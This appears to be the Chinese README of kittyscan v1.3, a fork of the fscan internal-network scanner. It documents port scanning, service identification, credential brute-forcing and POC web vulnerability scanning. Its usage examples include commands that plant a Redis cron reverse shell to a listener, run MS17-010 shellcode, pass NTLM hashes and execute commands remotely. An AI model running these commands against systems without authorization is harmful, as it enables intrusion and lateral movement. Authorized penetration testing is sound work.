



# kittyscan v1.3

[English][url-docen]

> **本项目基于 [fscan](https://github.com/shadow1ng/fscan) 1.8.4 二次开发**（MIT License · Copyright (c) 2021 shadow1ng），
> 保留原作者版权与许可声明，详见 [LICENSE.txt](LICENSE.txt)。
> 相对原版的全部差异见下方 **第 3 节《相对 fscan 1.8.4 的更新与修复》**，v1.0 / v1.1 阶段的逐项变更明细见 [CHANGELOG\_v1.0.md](CHANGELOG_v1.0.md)。
> 
> ⚠️ **免责声明**：本工具仅限在**已获明确授权**的环境中使用。禁止对未授权目标进行扫描或攻击；因滥用造成的任何后果由使用者自行承担。

# 1. 简介

一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。
支持主机存活探测、端口扫描、常见服务的爆破、MS17-010、Redis 批量写公钥、计划任务反弹 shell、读取 Win 网卡信息、Web 指纹识别、Web 漏洞扫描、NetBIOS 探测、域控识别等功能。

kittyscan 在 fscan 1.8.4 的基础上，沿四个方向持续改进：

- **覆盖更广**：服务插件 24 → 41，POC 386 → 688，默认端口 21 → 143，密码字典、爆破服务同步扩充；v1.3 起 Web 指纹规则 206 → 7,611 条（含品牌家族合并组与长尾小众产品，仅识别不收敛）；
- **判定更准**：按 nuclei 模板收紧指纹规则与 POC 误报（复活 3 条失效规则、剔除只判 `status=200` 的高误报 POC），POC 引擎的响应头键、GBK 编码、超时等判定细节逐项修正；
- **跑得更稳**：数据库爆破无超时挂死、RDP 爆破死锁、727 个并发 DATA RACE、Redis RESP 解析错位等稳定性问题全部修复，并通过 `-race`、真实环境、靶机三类验证；
- **识别驱动（v1.3 核心）**：新增服务识别层 —— 端口开放后先做 banner/协议/TLS 探测，输出 `[port] ip:port(服务)` 并**精准派发**对应爆破/未授权插件，识别失败回退 WebTitle + 端口表双轨兜底；公网 Quake 14 服务非标端口实测，活特征口径识别率 90%~100%。

# 2. 主要功能

1. 信息搜集：

- 存活探测（ICMP / `-ping`）
- 端口扫描（支持 `-syn` 半连接扫描，需管理员/root）
- **服务识别**（v1.3）：开放端口逐个做 banner/协议主动探测（SSH/FTP/Telnet/VNC/Rsync/MySQL/MSSQL/PostgreSQL/MongoDB/Redis/Memcached/Kafka/RDP/AMQP 等 + TLS-Web/TLS-Redis/TLS-AMQP），输出 `[port] ip:port(服务)` 后缀并派发对应插件；识别失败回退 Web 标题与端口表
- 流水线调度：发现端口即并行触发 WebTitle 与服务爆破

2. 爆破功能：

- 各类服务爆破：SSH、SMB、RDP、**WinRM**、FTP、Telnet、VNC、SVN、LDAP、Elasticsearch、Tomcat、WebLogic、ActiveMQ、RabbitMQ、Kafka、Zookeeper、Rsync、SNMP 等
- 数据库密码爆破：MySQL、MSSQL、PostgreSQL、Oracle、Redis、MongoDB 等
- `-br N` 单目标爆破并发（对**全部**爆破模块生效，默认 1 = 串行）

3. 系统信息、漏洞扫描：

- NetBIOS 探测、域控识别
- 获取目标网卡信息
- 高危漏洞扫描（MS17-010 等）

4. Web 探测：

- WebTitle 探测
- Web 指纹识别（常见 CMS、OA 框架等）
- **纯指纹模式**：`-m finger`（先端口扫描再识别指纹）、`-m fingeronly`（跳过端口扫描，直接按 Web 端口探测）
- Web 漏洞扫描（WebLogic、Struts2 等，支持 xray 格式 POC），DnsLog 反连检测默认开启（`-nodns` 关闭，`-ceye-key`/`-ceye-domain` 可覆盖凭据）

5. 漏洞利用：

- Redis 写公钥或写计划任务
- SSH 命令执行
- MS17017 利用（植入 shellcode），如添加用户等

6. 输出与其他：

- 标签化彩色输出：`[port]` / `[web]` / `[info]` / `[vul]`，POC 命中附完整请求、匹配表达式与响应片段
- `-json` NDJSON 结果输出、`-silent` 静默、`-nocolor` 去色
- Ctrl+C 优雅退出（停止派发 → 在途结果落盘 → 打印完成统计）
- 随机扫描延迟（默认开启，`-nodelay` 关闭）、`-tls` 最低 TLS 版本、`-maxconns` 每主机连接数、7 个最新 User-Agent 随机轮换

# 3. 相对 fscan 1.8.4 的更新与修复

## 3.1 规模对比

| 项目 | fscan 1.8.4 | kittyscan v1.3 |
| --- | --- | --- |
| 服务插件（`Plugins/*.go`） | 24 | **41** |
| POC（`WebScan/pocs/*.yml`） | 386 | **688** |
| Web 指纹规则（`RuleDatas` 条目） | 206 | **7,611** |
| 默认扫描端口 | 21 | **143** |
| Go 源码行数 | 约 7,700 | **约 22,300** |

默认行为差异：

| 项目 | fscan 1.8.4 | kittyscan v1.3 |
| --- | --- | --- |
| 默认线程数 `-t` | 600 | 100（更隐蔽） |
| 默认输出文件 `-o` | `result.txt` | `output.txt` |
| DnsLog 反连检测 | 默认关闭（`-dns` 开启） | **默认开启**（`-nodns` 关闭） |
| 扫描延迟 | 无 | 默认随机延迟（`-nodelay` 关闭） |
| 代理参数 | `-proxy` + `-socks5` 两个参数 | 统一为 `-proxy`（按协议分流，见 3.2） |
| 帮助 | 无 | `-help` 中文帮助 / `-hen` 英文帮助（均带样例） |

## 3.2 新增功能

### 服务识别驱动派发（v1.3 核心）

> 原版 fscan 按端口表盲派发（扫到 22 就打 SSH 字典）。v1.3 起改为**识别优先**（`Plugins/identify.go`，原版无此文件）：

- **三阶段识别**：阶段1 连接后先发 HTTP GET 同时收取先发 banner（SSH/FTP/Telnet/VNC/Rsync/MySQL/MariaDB/SMTP 等按响应特征分类）→ 阶段2 协议主动探测（Redis/Memcached/MongoDB/MSSQL/PostgreSQL/Kafka/RDP/AMQP 八探针**并发**执行，总耗时 sum→max）→ 阶段3 TLS 探测（TLS-Web / TLS-Redis / TLS-AMQP）
- **一行成型输出**：`[port] ip:port(服务)`（如 `[port] 5.161.195.106:22(ssh)`，web 归一显示为 `http`；指纹 `[info]` 与 `[web]` 不变）
- **精准派发**：识别命中 → `ServicePluginKey` 直接调用对应爆破/未授权插件——**非标端口（2222/6380/13389/27018…）全部可触发**，不依赖固定端口表；识别失败 → 回退原路径（WebTitle + 端口表兜底）
- **双轨制端口表**：已识别的 13 服务仅保留 1 个兜底端口；identify 永远测不出的服务（Oracle/LDAP/SNMP/SVN/ActiveMQ/RTSP 等无探针）保留完整非标端口兜底集合，消除"扫了却无插件派发"的白扫
- **公网实测**：Quake 14 服务 × 各 60 资产、**全部避开兜底端口**——活特征口径识别率 90%~100%（详见 3.4）

### 新增服务插件（原版 24 个 → 41 个）

> 下列插件原版 fscan 1.8.4 均不具备。扩展目的是把常见高价值中间件、数据库、存储与远程管理服务纳入**未授权检测与弱口令爆破**的覆盖范围。

| 插件（端口） | 功能 | 扩展目的 |
| --- | --- | --- |
| Elasticsearch (9200) | 未授权访问检测 + Basic Auth 口令爆破 | 云原生/日志存储未授权是重灾区 |
| Tomcat (8080) | Manager Basic Auth 口令爆破 | 高频 Java 中间件弱口令 |
| WebLogic (7001) | 控制台表单登录爆破 | 国产高价值 Java 中间件 |
| ActiveMQ (8161/61616) | 未授权检测 + 管理台口令爆破 | 消息队列未授权与弱口令 |
| VNC (5900) | RFB 协议 DES 加密口令爆破 | 远程桌面弱口令 |
| SVN (3690) | HTTP OPTIONS 探测 + Basic Auth 爆破 | 源码泄露入口 |
| LDAP (389/5000/636) | 原生 LDAP Bind 口令爆破 | 域环境凭据碰撞 |
| Zookeeper (2181) | 四字命令 `ruok` 健康/未授权检测 | 分布式协调服务未授权 |
| Kafka (9092) | Metadata 请求未授权探测 | 消息队列未授权 |
| RabbitMQ (15672) | HTTP API `/api/overview` 未授权检测 | 管理台未授权 |
| Rsync (873) | 协议握手、模块列表枚举与口令爆破 | 备份/源码泄露 |
| Telnet (23) | TCP 连接 + 口令爆破 | 明文协议弱口令 |
| SNMP (161/UDP) | UDP GET sysDescr，community 爆破 | 网络设备信息泄露 |
| RTSP (554) | 流媒体协议探测与口令爆破 | 摄像头/流媒体弱口令 |
| WinRM (5985/5986) | WS-Man + 完整 NTLM Type1/2/3 口令爆破 | Windows 远程管理弱口令（带 canary 防误报） |

### 其他新增能力

- **纯指纹识别模式**：`-m finger` / `-m fingeronly`（只出指纹，不跑 POC、不爆破）
- **SYN 半连接扫描**：`-syn`（Linux root 原始套接字；Windows x64/arm64 走 Npcap 异步引擎——masscan 式无状态收发，支持 `-synrate` 限速与自动重传；权限/Npcap 缺失自动降级 TCP Connect）
- **中英文帮助**：`-help` / `-hen`，每个参数带示例
- **反连凭据可覆盖**：`-ceye-key` / `-ceye-domain`
- **统一代理入口 `-proxy`**：
  - `-proxy http://...` → 仅 HTTP（Web/POC）出口，端口扫描与爆破等 TCP 流量直连；
  - `-proxy socks5://...` → 全局代理，所有 TCP 拨号与 Web/POC 请求均走代理（自动跳过 ICMP 探测）；
  - 支持 `host:port`、纯端口、`-proxy 1`（Burp）、`-proxy 2`（SOCKS5）等快捷写法；**原 `-socks5` 已并入本参数，老脚本需改写为 `-proxy socks5://...`**
- **输出增强**：`[port]/[web]/[info]/[vul]` 标签化彩色输出；POC 命中输出完整请求、Match 表达式与 Response 片段
- **端口 / 字典 / POC 扩展**：默认端口 21 → 143；密码字典 70 → 100+（年份变体、键盘序列、服务默认口令等）+ 9 个新服务的账号字典；POC 386 → 688（含 Spring Actuator、VMware、Nacos、国产 OA/CMS 等），入库前按误报审查剔除 11 个只判 `status=200` 的高误报 POC
- **时间盲注支持**：POC 规则 `response.duration >= 秒数`
- **POC 字段扩展**：支持 `response.raw_header`（原始响应头）与 `output` 变量提取，供 POC 做更细匹配与二次请求取值
- **POC 规则短路字段**：`stop_if_match`（本条命中即停并判定本组命中，OR 型"找到就收工"）/ `stop_if_mismatch`（本条不命中即停，与顺序 AND 链默认行为一致），语义对齐 afrog/xray
- **POC 基准支持路径前缀**：原始 URL 自带子目录时，根与该目录都会作为基准 —— `-u http://h/app/dev/api/login.html` 会打 `http://h/` 与 `http://h/app/dev/api/`（该条不受 `-no302base` 影响）
- **302 跳转派生 POC 基准**（默认开启，`-no302base` 关闭）：在上述两条基准之外，同域跳子目录则追加该目录前缀（如 `http://host/dev/`），跳根级文件（`/login.html`）不追加；跨域则追加新 host 的根（忽略其路径深度）
- **Ctrl+C 优雅退出**：停止派发新任务 → 在途结果落盘（8s 兜底）→ 打印完成统计 → 退出码 130
- **工程化**：`build.py` 一键多平台构建（UPX 压缩可选，未安装自动跳过）
- **SMB 双协议自动路由（v1.3）**：445 分支四路派发（Web + MS17-010 + SMB 爆破 + **SmbGhost 自动检测**——原版 `AddScan("1000002"...)` 处于注释禁用状态）；`smb_probe` 方言探测（复用 negotiate 报文读 `\xffSMB`/`\xfeSMB` 魔数）按方言路由 smb1(stacktitan)/smb2(go-smb2) 后端，全字典单遍不双倍；`-hash` 直走 smb2、`-m smb2` 语义不变
- **POC 收敛三策略（v1.3）**：① 指纹收敛轮**固定并入通用白名单**（`sensitive-file-exposure`、`common-endpoint-exposure` 等 5 个基础暴露面 POC——否则命中指纹的站点反而跳过 `.git/config`、`/actuator` 等基础探测）② 指纹有映射但收敛 **0 命中 → 回退全量**（原静默空转 0 个）③ **多指纹并集去重**：每基准只打一轮 = 各指纹 POC 集的去重并集（原 K 个无映射指纹 = K 轮完全重复的全量；实测双指纹 1539→774，全量 ⊇ 收敛集零漏报）
- **`-full` 升级为强制全量（v1.3）**：原版仅 Shiro 全部 Key → 现为 `filterPoc` 顶部最强覆盖，**每个 URL 跳过指纹收敛/-pocname 筛选执行全量 688 POC**（Shiro 全 Key 行为保留）
- **Web 指纹库 206 → 7,611 条（v1.3）**：chunsou 指纹库两批精选 7,404 条（品牌家族合并组 + 长尾小众产品），kw 级质量过滤（≥6 字符或含路径）、`icon_hash` 与短词高危排除、家族/单体防重；**仅识别不加映射**（不改 `PocDatas` 收敛表——误报最坏代价为 `[info]` 标注 + 该轮全量，不漏报）
- **connect 扫描 RST 关闭（v1.3）**：`SetLinger(0)` 关闭即 RST 不进 TIME_WAIT，防 Windows 动态端口（约 16k）高速扫大端口段耗尽（`WSAEADDRNOTAVAIL` 漏报）；TIME_WAIT 对照实测扫描器新增 0

## 3.3 相对 fscan 1.8.4 的修复与优化

> 下表以原版 1.8.4 为基准**集中列示**（新增插件自身的实现细节不在此列，其功能与目的见 3.2）。

| 类别 | 修复与优化 |
| --- | --- |
| 稳定性 | Postgres/MySQL/MSSQL 无 IO 超时 → 目标不回包时爆破**永久挂死**（实测 blackhole 30s+ → 2.2s 正常退出）；RDP 爆破成功即死锁（`brlist` 改带缓冲，成功/失败路径都能收尾）；RDP 连接路径并发 DATA RACE → `-race` 复测归零（修复前 727 个）；CIDR `/7`\\~`/0` 无上限展开导致 OOM → 上限 65536 + 明确提示并跳过该目标 |
| 漏报与越界 | POC 响应 header 键大小写不一致 → `no such key` 使约 30 个 POC 永久失效（含**原版** POC `alibaba-nacos`）→ canonical/小写双写；302 跨域把 POC 打到外部域名且漏掉原始目标 → 基准显式计算（见 3.2）；`-hn` 对 `-hf` 的 `ip:port` 目标失效（授权边界）→ 过滤前移到 `ParseIP` 源头；`-pa` 追加端口破坏端口收敛；ICMP 一对多映射使 `localhost` 与 `127.0.0.1` 只报一个存活；GBK 页面中文指纹不命中（原版解码发生在指纹注入之后）→ 解码提前到注入之前；`-br` 原版仅 RDP 生效 → 扩展到全部爆破模块（实测约 3.6 倍提速）；`-nobr` 由连带跳过漏洞检测改为只跳爆破 |
| 误报控制 | fcgi 系统性误报判定修正；指纹规则收紧 5 条（依据 nuclei 模板）并复活 3 条失效规则；Redis `-rf`/`-rs` 写入失败时跳过配置恢复 → 可能覆盖目标真实公钥，恢复改为 `defer` 覆盖全部返回路径 |
| 输出与交互 | `-silent` 原版仅 1 处生效点 → 现全局 17 处收敛（状态行/加载汇总均静默）；`-json` 输出保证为合法 NDJSON；非法参数与非法目标由静默改为明确报错；`os.Stdout` 实时刷新（原版 Windows 下输出卡顿）；`-rf`/`-sshkey`/`-pocpath` 支持 BOM/UTF-16 编码文件；爆破超时分级（SSH 1s / 其他 2s） |
| 识别与爆破（v1.3） | 爆破超时一刀切（原 `CheckErrs` 首个错误即停整个目标）→ **连续 3 次超时才停**、认证拒绝/成功清零计数、致命错误立即停（`ErrJudge`，24 个爆破点全接入）；server-first banner 竞态（阶段1 先发 GET 后对端 RST 丢弃缓冲 banner → VNC/MySQL/FTP/Telnet 漏识别）→ 阶段1b 纯读补探测；MySQL 残截 greeting 与 host-not-allowed ERR 包（code 1130）漏识别 → 1b 触发放宽 + ERR 包判定；Telnet IAC 首字节判定过窄 + 文本 banner 无判定 → `Contains` IAC + 关键词判定；stage2 协议探测串行预算耗尽（静默目标逐个吃满 3s，`postgres`/`rdp` 探针永远轮不到）→ 八探针并发（sum→max：13389 真 RDP 识别 0%→80%、5433 68%→93%）；SSH 爆破超时 2s→3s（公网跨省 RTT） |

## 3.4 验证情况

- 每批改动均通过 **Windows + `GOOS=linux` 双平台编译**，`gofmt` / `go vet` 干净
- `-race`（CGO + GCC）：RDP 路径竞态修复后 **5 轮复测全部为 0**
- 真实环境验证：公网资产与 Kali 靶场逐项实测（协议类逐项对拍）
- 靶机实测：Windows 靶机 RDP / WinRM 正确口令与并发（正确口令出 `[vul]`、错误口令无误报）；Kali Redis 全矩阵（写公钥 / 写 cron 后目标配置恢复）
- 本地假靶场回归：POC 基准、代理作用域、规则短路字段、302 基准等行为逐例验证
- **v1.3 识别链**：Quake 14 服务 × 各 60 资产非标端口实测（**全部避开兜底端口**，`service:"x" and port:"相近非标"` 口径）——活特征口径识别率 90%~100%，低分组经逐目标抽样甄别为死资产/半开静默（无响应特征识别不出属正确行为）；关键指标：redis 6380 识别率 18% → **100%**（TLS-Redis 探针）、rdp 13389 **0% → 80%**（stage2 并发）、mysql 77% → 97%、telnet 漏样本 2/2 修复、TLS-AMQP 真目标命中
- **v1.3 本地假靶场**：残截 MySQL / MySQL-ERR / VNC 竞态 / TLS-Redis / fake RDP / TLS-AMQP 六类识别烟雾；TIME_WAIT 对照（正常 FIN 关闭 3 个 vs 扫描器 5 次 0 新增）；多指纹并集去重矩阵（5 场景 + 覆盖断言 `gateway.php` 仅 1 次）
- **v1.3 靶机**：Win7 真实 SMB1（方言路由链路 + 额外命中 MS17-010）、Win11 真实 RDP（NLA 下 ErrJudge 认证拒绝清零计数 5/5 跑完）

## 3.5 已知限制

- `-br N>1` 时，`[vul]` 在连接内的插件若多 worker 同时成功可能输出多条；**Redis 建议 `-br 1`**
- WinRM canary 检测会在目标安全日志留下 1 次不存在账号的失败登录（防误报的设计代价）
- `-noredis` 只跳过写入动作，未授权检测与爆破照常执行
- **v1.3 识别驱动语义**：识别失败且端口不在兜底表（非标端口）时该端口**无插件派发**——这是"识别优先"设计的固有语义（兜底表仅覆盖每服务 1 个标准端口 + 无探针服务全集）；连接通但 payload 被防火墙丢弃的半开静默目标无响应特征，不可识别属正确行为

# 4. 使用说明

简单用法：

```
kittyscan.exe -h 192.168.1.1/24        (默认使用全部模块)
kittyscan.exe -h 192.168.1.1/16        (B段扫描)
```

其他用法：

```
kittyscan.exe -h 192.168.1.1/24 -np -no -nopoc   (跳过存活检测、不保存文件、跳过web poc扫描)
kittyscan.exe -h 192.168.1.1/24 -rf id_rsa.pub   (redis 写公钥)
kittyscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
kittyscan.exe -h 192.168.1.1/24 -c whoami        (ssh 爆破成功后，命令执行)
kittyscan.exe -h 192.168.1.1/24 -m ssh -p 2222   (指定模块ssh和端口)
kittyscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
kittyscan.exe -h 192.168.1.1/24 -o /tmp/1.txt    (指定扫描结果保存路径,默认保存在当前路径)
kittyscan.exe -h 192.168.1.1/8                   (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息)
kittyscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
kittyscan.exe -h 192.168.1.1/24 -m ms17010       (指定模块)
kittyscan.exe -hf ip.txt                          (以文件导入)
kittyscan.exe -u http://baidu.com -proxy 8080     (扫描单个url,并设置http代理 http://127.0.0.1:8080)
kittyscan.exe -h 192.168.1.1/24 -proxy socks5://127.0.0.1:1080 (全局代理:所有TCP拨号与Web/POC请求都走代理)
kittyscan.exe -h 192.168.1.1/24 -nobr -nopoc     (不进行爆破,不扫Web poc,以减少流量)
kittyscan.exe -h 192.168.1.1/24 -pa 3389         (在原基础上,加入3389->rdp扫描)
kittyscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,推荐使用专项利用工具)
kittyscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash)
kittyscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
kittyscan.exe -m finger -h 192.168.1.1/24 -p 80,443,8080 (纯指纹:先端口扫描再识别web指纹,自动跳过POC与爆破)
kittyscan.exe -m fingeronly -h 192.168.1.1       (纯指纹:跳过端口扫描,直接按Web端口列表探测并识别指纹)
kittyscan.exe -u http://192.168.1.1:8080 -m finger (单URL纯指纹识别)
kittyscan.exe -h 192.168.1.1/24 -syn             (SYN半连接扫描,需管理员/root)
kittyscan.exe -h 192.168.1.1/24 -br 8            (单目标爆破并发,全部爆破模块生效)
kittyscan.exe -h 192.168.1.0/24 -nodns           (禁用DnsLog反连检测)
```

编译：

```powershell
# Windows
go build -ldflags="-s -w" -trimpath -o kittyscan.exe main.go

# Linux 交叉编译（注意：_linux 文件不参与 Windows 构建，必须交叉编译才能发现其编译错误）
$env:GOOS="linux"; $env:GOARCH="amd64"; go build -trimpath -o kittyscan main.go

# 一键多平台构建（UPX 压缩可选，未检测到 upx 会自动跳过）
python build.py
```

完整参数（等同于直接运行 `kittyscan.exe -help`，英文版见 `-hen`）：

```
--------------------------------------
用法: kittyscan.exe [选项]
      -help 显示本中文帮助，-hen 显示英文帮助

目标:
  -h  string   扫描目标IP/域名/CIDR
                例: -h 192.168.1.1
                例: -h 192.168.1.0/24
                例: -h 192.168.1.1,192.168.1.2
  -hn string   排除指定主机
                例: -hn 192.168.1.1/24
  -hf string   从文件批量读取目标
                例: -hf ip.txt

存活探测:
  -np          跳过存活探测直接扫描端口
  -ping        使用Ping替代ICMP探测存活

端口:
  -p  string   指定扫描端口（默认143个常用端口）
                例: -p 22
                例: -p 1-65535
                例: -p 22,80,3306
  -pa string   追加端口到默认列表
                例: -pa 3389
  -pn string   排除指定端口
                例: -pn 445
  -portf string  从文件读取端口
                例: -portf ports.txt

扫描类型:
  -m  string   指定扫描类型（默认 all）
                例: -m all        全扫描（端口+服务+Web）
                例: -m ssh        仅SSH爆破
                例: -m redis      仅Redis未授权/爆破
                例: -m mysql      仅MySQL爆破
                例: -m web        仅Web漏洞扫描
                例: -m finger     仅Web指纹识别（自动跳过POC与爆破）
                例: -m fingeronly 仅Web指纹识别且跳过端口扫描（直接按Web端口探测）
                例: -m portscan   仅端口扫描
                例: -m icmp       仅存活探测
                例: -m ms17010    仅MS17-010检测

Web扫描:
  -u  string   直接指定URL进行扫描
                例: -u http://192.168.1.1:8080
  -uf string   URL文件批量扫描
                例: -uf urls.txt
  -pocname string  按名称筛选POC
                例: -pocname weblogic
  -pocpath string  自定义POC目录
                例: -pocpath /path/to/pocs
  -full        强制每个URL全量执行所有POC（跳过指纹收敛；Shiro测试全部Key）
  -dns         使用DnsLog检测无回显漏洞（默认开启）
  -nodns       禁用DnsLog反连检测
  -no302base   关闭302跳转派生的附加POC基准（默认开启）
                始终打: 原始根 + 原始URL自身子目录（.../app/dev/api/login.html → http://h/ 与 http://h/app/dev/api/）
                开启时另追加: 同域跳子目录的目录前缀 + 跨域新host的根（关闭则只保留上面两条）
  -ceye-key string  覆盖ceye反连API Key（留空则使用内置默认值）
                例: -ceye-key 0123456789abcdef0123456789abcdef
  -ceye-domain string  覆盖ceye二级域名（留空则使用内置默认值）
                例: -ceye-domain abc.ceye.io
  -nopoc       跳过Web漏洞扫描（仅做端口和服务检测）
  -cookie string  设置请求Cookie
                例: -cookie rememberMe=login
  -proxy string   设置代理（按协议区分作用域，原 -socks5 已并入本参数）
                http://   → 仅 HTTP(Web/POC) 出口，端口/爆破等TCP流量直连
                socks5:// → 全局代理，所有TCP拨号(端口/服务/爆破)与Web/POC请求均走代理(自动跳过ICMP探测)
                例: -proxy http://127.0.0.1:8080
                例: -proxy socks5://127.0.0.1:1080
                例: -proxy 127.0.0.1:8080    (默认HTTP)
                例: -proxy 8080              (默认127.0.0.1)
                例: -proxy 1                 (Burp默认，仅HTTP)
                例: -proxy 2                 (SOCKS5默认，全局)
  -num int     POC并发数（默认20）
                例: -num 50

账号爆破:
  -user string   指定用户名
                例: -user admin
  -pwd  string   指定密码
                例: -pwd 123456
  -userf string  从文件读取用户名
                例: -userf user.txt
  -pwdf string   从文件读取密码
                例: -pwdf pass.txt
  -usera string  追加用户名到默认列表
                例: -usera testuser
  -pwda string   追加密码到默认列表
                例: -pwda P@ssw0rt1
  -nobr        跳过密码爆破（漏洞检测照常执行）

特殊功能:
  -c  string   SSH/WmiExec远程执行命令
                例: -c whoami
  -sshkey string  SSH密钥文件
                例: -sshkey id_rsa
  -domain string  SMB域
                例: -domain WORKGROUP
  -sc  string   MS17-010 Shellcode
                例: -sc add
  -hash string   SMB NTLM Hash
                例: -hash aad3b435b51404eeaad3b435b51404ee
  -rf  string   Redis写入SSH公钥文件
                例: -rf id_rsa.pub
  -rs  string   Redis写入计划任务反弹Shell
                例: -rs 192.168.1.1:6666
  -path string  Fcgi/SMB远程文件路径
                例: -path /www/wwwroot/index.php
  -noredis     跳过Redis未授权写入测试
  -wmi         135端口发现时额外尝试WMI命令执行
  -syn         SYN半连接扫描（需管理员/root权限）
  -synrate int SYN引擎发包速率上限（包/秒；0=自动20000，负数=不限速）

性能调优:
  -t  int       并发线程数（默认100）
                例: -t 500
  -time int     连接超时秒（默认3）
                例: -time 5
  -wt  int      Web请求超时秒（默认5）
                例: -wt 10
  -br  int      单目标爆破并发数（默认1=串行，全部爆破模块生效）
                例: -br 5
  -num int      POC并发数（默认20）
                例: -num 50
  -tls int      TLS最低版本（默认10）
                例: -tls 12   (更安全)
                例: -tls 13   (最新)
  -maxconns int 每主机最大连接数（默认10）
                例: -maxconns 20
  -nodelay     禁用随机扫描延迟（默认开启延迟）
                Web请求延迟100-300ms，爆破延迟50-100ms

输出控制:
  -o  string    输出文件（默认 output.txt）
                例: -o output.txt
  -no           不保存结果到文件
  -json         JSON格式输出
  -silent       静默模式
  -nocolor      禁用彩色输出
  -top int      显示存活主机TOP数（默认10）
                例: -top 20
  -debug int    进度日志间隔秒（默认60）
                例: -debug 30

常用示例:
  kittyscan.exe -h 192.168.1.0/24
  kittyscan.exe -h 192.168.1.1 -m ssh -t 100
  kittyscan.exe -h 192.168.1.1 -p 80,443,8080 -m all
  kittyscan.exe -hf ip.txt -p 22,3306,6379
  kittyscan.exe -u http://192.168.1.1:8080 -pocname struts2
  kittyscan.exe -h 192.168.1.0/24 -m ssh -user admin -pwdf pass.txt
  kittyscan.exe -h 192.168.1.0/24 -nodns          禁用反连检测
```

# 5. 运行截图

编译脚本截图


存活探测截图


漏洞扫描截图



# 6. 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。

